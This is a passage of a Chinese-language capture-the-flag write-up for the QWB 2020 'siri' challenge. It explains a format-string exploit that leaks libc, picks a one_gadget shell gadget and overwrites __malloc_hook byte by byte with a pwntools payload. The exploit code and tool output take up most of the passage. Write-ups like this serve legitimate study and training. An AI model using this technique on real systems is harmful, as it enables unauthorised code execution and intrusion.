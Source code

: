 `0x7ffcf4ebb980`存放了`RBP`的信息，加8就变成了`main`的栈基址；`0x7ffcf4ebbaa8`中存放了`__libc_start_main`偏移后的地址，经过处理可以得到`libc`的基址。随后利用`one_gadget`获取跳转目标：

```shell
hjc18@Chernobyl-WorkStation:~/PWN/qwb2020/siri$ one_gadget libc.so.6
/var/lib/gems/2.5.0/gems/one_gadget-1.7.3/lib/one_gadget/helper.rb:261: warning: Insecure world writable dir /mnt/c in PATH, mode 040777
0x4f365 execve("/bin/sh", rsp+0x40, environ)
constraints:
  rsp & 0xf == 0
  rcx == NULL

0x4f3c2 execve("/bin/sh", rsp+0x40, environ)
constraints:
  [rsp+0x40] == NULL

0x10a45c execve("/bin/sh", rsp+0x70, environ)
constraints:
  [rsp+0x70] == NULL
```

信息收集完毕，接下来有两种思路可以利用。

## 修改`malloc_hook`

`printf`在输出字符串长度过长时会自动调用`malloc`申请内存空间，而输出的格式化字符串的宽度是可控制的，因此可以通过修改`malloc_hook`至`one_gadget`，然后通过诸如`printf("%399999c")`等超长格式化串来调用`malloc`，进而实现`get_shell`。由于获取到了`libc`的基址，`malloc_hook`的基址自然可以通过偏移减得，下面讲讲如何写入。

由于`leak`函数中限制输入长度为`0x110`，`malloc_hook`的地址长度为6个字节，使用`%hnn`修改需要准备6个参数，总长度为`0x30`，即格式化字符串的总长度必须小于`0x80`；其次，由于传入的字符串包含了`Remind me to `前缀，为了内存对齐，输入的字符串长度应为`0x80 - strlen("Remind me to ")`。构造`payload`的思路为：格式化字符串（`0x80`）+`malloc_hook`地址*6。（**输入的格式化字符串首先传入`sprintf`，因此需要确保内存与`"Remind me to "`对齐；如果采用`">>> OK, I'll remind you to"`进行计算，需要额外偏移两个字节 **），在`printf`下断使用`fmtarg`确定参数与目标内存地址的偏移。

构造`payload`的解析如下：

```python
malloc_hook = libc_base + libc.sym['__malloc_hook']
gadget = libc_base + 0x4f3c2
written_size = 0 #已写入的字节数，用于控制溢出
offset = 64      #fmtarg计算的偏移

for i in xrange(6):                #构造6个字节的写入数据
    size = (gadget>>(8*i)) & 0xff  #通过位移和与操作提取gadget不同字节的数据
    size -= 27                     #printf已经输入了27个字符（>>> OK, I'll remind you to）
    if(size > (written_size & 0xff)): #写入的数据大于当前已写入的字符数，不需要溢出
        payload += '%{0}c%{1}$hhn'.format(size-(written_size&0xff),offset+i) #通过%(offset+i)$hhn控制写入地址
        written_size += size - (written_size & 0xff)
    else:
        payload += '%{0}c%{1}$hhn'.format((0x100-(written_size&0xff))+size,offset+i) #写入的数据大于当前已写入的字符数，进行溢出
        written_size += (0x100 - (written_size&0xff)) + size

#payload=payload.ljust(0x80-len(">>> OK, I'll remind you to ")-2,'a')#栈对齐  13 -> D  27 -> 1B
payload=payload.ljust(0x80-13,'a')#0x80 -> 到0x110 刚好够放6个64位指针

for i in xrange(6):
    payload += p64(malloc_hook+i)#堆叠写入的地址

log.info(payload)
#pause()
add(payload)
```
